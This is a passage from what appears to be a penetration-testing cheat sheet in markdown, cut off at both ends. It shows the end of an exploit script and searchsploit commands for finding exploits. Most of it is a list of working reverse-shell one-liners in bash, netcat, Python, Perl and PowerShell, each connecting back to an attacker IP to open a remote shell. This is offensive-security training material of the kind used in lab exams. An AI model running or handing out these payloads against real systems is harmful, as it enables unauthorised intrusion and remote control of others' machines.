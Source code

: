 ```
except:
     print "[!] connection refused, check debugger"
s.close()
```



## Find xploits - Searchsploit and google

Where there are many exploits for a software, use google. It will automatically sort it by popularity.

```bash
site:exploit-db.com apache 2.4.7

# Remove dos-exploits

searchsploit Apache 2.4.7 | grep -v '/dos/'
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

# Only search the title (exclude the path), add the -t
searchsploit -t Apache | grep -v '/dos/'
```

## Reverse Shells
***escape quotes if running from command line*** (ex., ((\"192.168.49.232\",80)))
```bash
# Linux
bash -i >& /dev/tcp/10.11.1.111/4443 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.1.111 4443 >/tmp/f
nc -e /bin/sh 10.11.1.111 4443

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.1.111",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4433 >/tmp/f')-1\

# Perl
perl -e 'use Socket;$i="10.11.1.111";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Windows
nc -e cmd.exe 10.11.1.111 4443
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# The below drops into a cmd.exe shell [ $ps -> into PowerShell / $ps=$false -> to go back to cmd.exe]:

```
